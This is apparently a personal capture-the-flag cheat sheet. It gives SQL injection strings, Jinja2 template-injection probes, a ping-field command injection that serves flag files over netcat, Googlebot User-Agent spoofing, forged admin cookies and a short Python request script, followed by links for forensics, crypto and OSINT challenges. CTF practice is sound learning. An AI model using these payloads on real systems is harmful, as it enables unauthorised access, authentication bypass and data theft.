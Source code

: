 # Ch34tsh33t
My CheatSheet


*Always check the Http method needed. Below are the list of HTTP Methods*
-POST
-GET
-PUT
-PATCH
-DELETE

*Using Google as secret-agent*
headers = {
	'User-Agent': 'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'
}

*If No Login was provided but Admin login is available*
Try using cookie "admin" set it to "true"

*SQL Injection*
' OR '1'='1' --
' LIKE '%'; --
' UNION SELECT * FROM answers WHERE answer GLOB '<input>*'; --

*Testing for Flask framework (Jinja2)*
{{1+1}} -> {{config.items()}} OR {{config}}


*Exploiting Ping command via WebApp*
8.8.8.8; cat *flag* | nc -lp 54433 -> nc targetip 54433

*Python Code To get http request*

#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}

r = requests.get('{TARGET IP}', data=params, cookies=jar)
source = r.text
print re.findall(r'(flag\{.+\})', source)[0]

*OTHERS*

*Git-Dumper*

*Obfuscate*
http://www.jsnice.org/

*OSINT*
https://github.com/i3visio/writeup-osintctf-2018/blob/master/levels/level_03-Sweden.md
https://github.com/i3visio/writeup-osintctf-2018/blob/master/levels/level_05-Guatemala.md
https://github.com/i3visio/writeup-osintctf-2018/blob/master/levels/level_06-Zambia.md
https://www.digital.security/en/blog/write-defcon-25-recon-village-osint-ctf
https://medium.com/osintblog/recon-village-ctf-overview-fe8787f3ce7f
GOOGLE MX TOOLBOX *

*Misc*
https://medium.com/bugbountywriteup/meepwn-ctf-quals-2018-writeup-part-1-ab216bbf0b35
https://medium.com/bugbountywriteup/codefest19-ctf-writeups-a8f4e9b45d1

*Forensics*
strings filename | grep flag - HexDump
exiftool image | grep flag - Metadata
zsteg image - least significant bit - http://stylesuxx.github.io/steganography/
file filename
stegsolve 
https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/forensics/
https://pequalsnp-team.github.io/cheatsheet/steganography-101
https://0xrick.github.io/lists/stego/

*Crypto*
Vignere Cipher - https://www.dcode.fr/vigenere-cipher
ROT13 - https://rot13.com/
John The Ripper
Ceasar Cipher -https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,11)&input=eWpoaXB2ZGRzZGFzcnB0aHBncnhld3RnZHFuanl0dG8
Substitution Solver - https://www.guballa.de/substitution-solver
Ceasar Cipher (No Key) - https://www.mygeocachingprofile.com/codebreaker.vigenerecipher.aspx
Substitution - https://quipqiup.com/
CYBERCHEF

*Bitflip*
https://wannabyte.xyz/2018/10/picoctf-secure-logon/
https://security.stackexchange.com/questions/177614/how-difficult-is-it-to-modify-aes-ciphertext-in-a-meaningful-way

*General Skills*
https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/general-skills/
https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/general-skills/
